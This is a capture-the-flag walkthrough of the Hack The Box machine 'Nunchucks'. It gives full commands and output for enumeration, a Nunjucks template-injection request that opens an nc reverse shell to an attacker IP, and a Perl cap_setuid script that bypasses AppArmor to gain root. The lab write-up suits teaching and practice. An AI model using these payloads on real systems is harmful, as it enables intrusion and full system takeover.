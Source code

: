 ![image](https://user-images.githubusercontent.com/105310322/196730660-c5ef0194-cbad-4040-9a86-2d7f0c361d86.png)


### Tools: Feroxbuster, Wfuzz, Perl

### Vulnerabilities: Hidden Domain: SSTI, Perl: Cap_setuid

Nmap reveals 3 ports open, SSH, HTTP, and HTTPS. They give us the domain so lets add that to our hosts file.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.95.252
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-18 15:12 CDT
Nmap scan report for 10.129.95.252
Host is up (0.079s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c146dbb7459c3782e48f511d85b4721 (RSA)
|   256 a2f42c427465a37c26dd497223827271 (ECDSA)
|_  256 e18d44e7216d7c132fea3b8358aa02b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.49 seconds
```
Feroxbuster gives a few things interesting things like the login page.

```console
└─$ feroxbuster -u https://nunchucks.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php,html,txt,git,pdf -q -k
WLD      GET        3l        6w       45c Got 200 for https://nunchucks.htb/efd7c3c056164989a56670de5c928281 (url length: 32)
WLD      GET         -         -         - Wildcard response is static; auto-filtering 45 responses; toggle this behavior by using --dont-filter
WLD      GET        3l        6w       45c Got 200 for https://nunchucks.htb/5de72f6e1ba949ebb8cfd289964c9f0a464042bc5b6440818c6b4b702744caf88948eb8241f64d4086555180d4b75b7b (url length: 96)
200      GET      546l     2271w    30589c https://nunchucks.htb/
200      GET      183l      662w     9172c https://nunchucks.htb/login
301      GET       10l       16w      179c https://nunchucks.htb/assets => /assets/
301      GET       10l       16w      193c https://nunchucks.htb/assets/images => /assets/images/
301      GET       10l       16w      185c https://nunchucks.htb/assets/js => /assets/js/
301      GET       10l       16w      187c https://nunchucks.htb/assets/css => /assets/css/
200      GET      250l     1863w    19134c https://nunchucks.htb/privacy
200      GET      187l      683w     9488c https://nunchucks.htb/signup
200      GET      245l     1737w    17753c https://nunchucks.htb/terms
Scanning: https://nunchucks.htb
Scanning: https://nunchucks.htb/
Scanning: https://nunchucks.htb/assets
Scanning: https://nunchucks.htb/assets/images
Scanning: https://nunchucks.htb/assets/js
Scanning: https://nunchucks.htb/assets/css
```
Checking out the terms and privacy pages we get a bunch of hints about a possible template injection. Looking more into it the firefox extension wappalyzer tells me NodeJS is running. Also looking up some SSTI on Hacktricks says that Nunjucks is running on SSTI! The fact that the box's name was Nunchucks means there is a really good chance this is the attack vector. However I was not able to find any vulnerabilties on this webpage. So lets fuzz for some more.












Running wfuzz we are finally able to locate another domain!

```console
└─$ wfuzz -c -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hw 2271 https://nunchucks.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000000037:   200        101 L    259 W      4028 Ch     "store"                                                                                     
 /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 5.600609
Processed Requests: 197
Filtered Requests: 196
Requests/sec.: 35.17474
```
On this webpage we have a single input field and if we test out an SSTI it takes it!

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks

The following is the payload I used in burp suite after capturing the store.nunchucks.htb input button.

```
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2Zc7PPzLntxukEPB3DAKztkS
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 19
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"email":"{{7*7}}"}
```
Now that we have finally confirmed that it is an SSTI we can form the rest of the payload. Hacktricks gave the basics of the command but in order for this payload to work I had to use \ to escape the "", otherwise the payload wouldnt work and URL encoding had no effect.

Set up your listener and send the reverse shell payload.

Note: Another version of this would be to send it commands and create your own SSH keys on the target to login. Since the SSH Port is open.

```
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2Zc7PPzLntxukEPB3DAKztkS
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 150
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.16 1234 >/tmp/f')\")()}}"}
```

We get a shell, the flag, and upgrade to an interactive shell!

```console
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.95.252] 59850
sh: 0: can't access tty; job control turned off
$ id
uid=1000(david) gid=1000(david) groups=1000(david)
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
david@nunchucks:/var/www/store.nunchucks$ 
```
```console
david@nunchucks:~$ cat user.txt
cat user.txt
3c82****************************
```

In my enumeration I found that perl was vulnerable from its capabilities with cap_setuid. However nothing I did was working.

https://gtfobins.github.io/gtfobins/perl/





It turns out that it had apparmor enabled as can be seen by this file. Basically we could run ```perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'``` but it would not execute the shell. However changing the command to whoami or id showed that it was running as root.

```console
david@nunchucks:/tmp$ cat /etc/apparmor.d/usr.bin.perl
cat /etc/apparmor.d/usr.bin.perl
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```
With a quick google search I came to this page which gives the answer. By putting the exploit into a script we can bypass the apparmor and gain root.

http://0xma.com/hacking/bypass_apparmor_with_perl_script.html

Your script should look something like this.

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```
After running it we can confirm our id is root and get the flag!

```console
david@nunchucks:/tmp$ ./rogue.pl
./rogue.pl
# id
id
uid=0(root) gid=1000(david) groups=1000(david)
# cat /root/root.txt
cat /root/root.txt
5a9*****************************
# 
```
Congrats!
